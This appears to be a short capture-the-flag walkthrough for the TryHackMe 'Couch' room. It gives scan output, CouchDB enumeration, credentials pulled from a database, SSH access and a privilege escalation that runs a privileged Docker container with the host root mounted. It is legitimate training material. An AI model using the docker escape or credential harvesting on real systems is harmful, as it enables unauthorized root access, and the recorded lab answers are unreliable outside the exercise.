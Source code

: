 ```yaml
---
layout: post
title: Walkthrough - Couch
published: true
---
```


Web, Docket, Linux, CouchDB.

[https://tryhackme.com/room/couch](https://tryhackme.com/room/couch)

* * *

## Scan the machine. How many ports are open?

``
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
``

* * *

## What is the database management system installed on the server?

``
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
``

* * *

## What port is the database management system running on?

- 5984

* * *

## What is the version of the management system installed on the server?

- 1.6.1

* * *

## What is the path for the web administration tool for this database management system?

- found this by running `feroxbuster` as gobuster was givin me too many errors

* * *

## What is the path to list all databases in the web browser of the database management system?

- `_all_dbs`

* * *

## What are the credentials found in the web administration tool?

- `inside the secret db - atena:t4qfzcc4qN## `

* * *

## Compromise the machine and locate user.txt

- ssh in with the creds

* * *

## Escalate privileges and obtain root.txt

- check `.bash_history` and run `docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine`
- cat `/root/root.txt`

![](/assets/couch01.png)

* * * 

